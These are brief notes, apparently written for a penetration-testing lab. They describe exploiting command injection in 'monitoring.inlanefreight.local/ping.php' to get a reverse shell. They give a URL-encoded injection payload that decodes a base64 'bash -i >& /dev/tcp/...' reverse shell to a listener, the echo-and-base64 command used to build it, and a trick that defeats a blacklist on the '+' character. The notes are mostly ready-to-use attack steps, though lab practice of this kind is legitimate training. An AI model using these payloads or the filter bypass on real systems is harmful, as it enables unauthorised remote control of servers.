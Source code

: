 - To get reverse shell from command injection in `monitoring.inlanefreight.local/ping.php` it is required to build request
- f.e to recieve rev shell the next payload will be good but it works only for 10.10.15.188:4444 listener. 
	- to create for new ip/port, base64 should containt `+`
```
/ping.php?ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<YmFzaCAgIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjE4OC80NDQ0ICAwPiYx)
```
- Steps to create 
```
echo -n 'bash -i >& /dev/tcp/10.10.15.157/4444 0>&1' | base64 > r  
```
- but put some spaces in a place where base64 generates `+`  because this character is blacklisted

